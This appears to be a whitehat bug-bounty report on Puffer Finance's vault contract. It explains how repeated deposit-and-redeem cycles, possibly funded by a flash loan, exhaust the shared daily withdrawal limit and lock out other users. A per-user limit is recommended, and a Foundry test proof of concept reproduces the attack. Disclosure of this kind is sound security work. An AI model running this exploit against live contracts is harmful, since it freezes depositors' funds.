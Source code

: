 # Attacker Prevents All Users From Withdrawing Funds by Exploiting The Daily Withdrawal Limit

Submitted 2 months ago by @oyk (Whitehat) for Boost | Puffer Finance

Report ID: #28645
Report type: Smart Contract
Has PoC? Yes
Target: Primacy of Impact

# Impacts
- Temporary freezing of funds for at least 1 hour

# Details

# Vulnerability Details
In the `PufferVaultMainnetcontract`, an attacker (who might potentially be a Puffer's competitor) can exploit the daily withdrawal limit by repeatedly depositing then withdrawing assets from the vault, deliberately making `_getPufferVaultStorage().assetsWithdrawnToday = _getPufferVaultStorage().dailyAssetsWithdrawalLimit` and `getRemainingAssetsDailyWithdrawalLimit() = 0`. This can be achieved using their own funds or funds obtained via a flash loan.

Even if the protocol raises the daily withdrawal limit, the attacker still can persist in exploiting this vulnerability until the daily limit is reached again. If the protocol then raises the daily limit to be unlimited, the attacker will continue depositing stETH and withdrawing WETH from the vault till when the liquidity of WETH and ETH in the vault is 0, resulting in all users of the protocol being unable to withdraw their assets from the vault.

# Impact Details
All funds deposited by users into the vault become inaccessible for withdrawal.

# Recommendation
It is recommended to implement a daily withdrawal limit for every user (on a user level) to mitigate the risk of this vulnerability.

# Proof of concept
```
    // forge t --mt test_attacker_causes_freezing_of_funds -vvvv
    function test_attacker_causes_freezing_of_funds()
        public
        giveToken(BLAST_DEPOSIT, address(stETH), alice, 1000 ether)
        giveToken(BLAST_DEPOSIT, address(stETH), bob, 1000 ether)
        giveToken(MAKER_VAULT, address(_WETH), dave, 51 ether)
    {
        // Pre-mainnet version
        // Alice and Bob deposited 1k ETH
        vm.startPrank(alice);
        SafeERC20.safeIncreaseAllowance(
            IERC20(stETH),
            address(pufferVault),
            type(uint256).max
        );
        pufferVault.deposit(1000 ether, alice);

        vm.startPrank(bob);
        SafeERC20.safeIncreaseAllowance(
            IERC20(stETH),
            address(pufferVault),
            type(uint256).max
        );
        pufferVault.deposit(1000 ether, bob);

        // Upgraded to mainnet
        _upgradeToMainnetPuffer();

        // Dave - the attacker purposely deposits and withdraws assets so that the daily withdrawal limit is reached, causes freezing of funds
        vm.startPrank(dave);
        SafeERC20.safeIncreaseAllowance(
            _WETH,
            address(pufferVault),
            type(uint256).max
        );
        uint256 pufETHMintedFirst = pufferVault.deposit(50 ether, dave);

        PufferVaultMainnet(payable(address(pufferVault))).redeem(
            pufETHMintedFirst,
            dave,
            dave
        );
        uint256 pufETHMintedSecond = pufferVault.deposit(50 ether, dave);
        PufferVaultMainnet(payable(address(pufferVault))).redeem(
            pufETHMintedSecond,
            dave,
            dave
        );

        // Alice now can't withdaw
        vm.startPrank(alice);
        vm.expectRevert();
        pufferVault.withdraw(10 ether, alice, alice);
    }
```
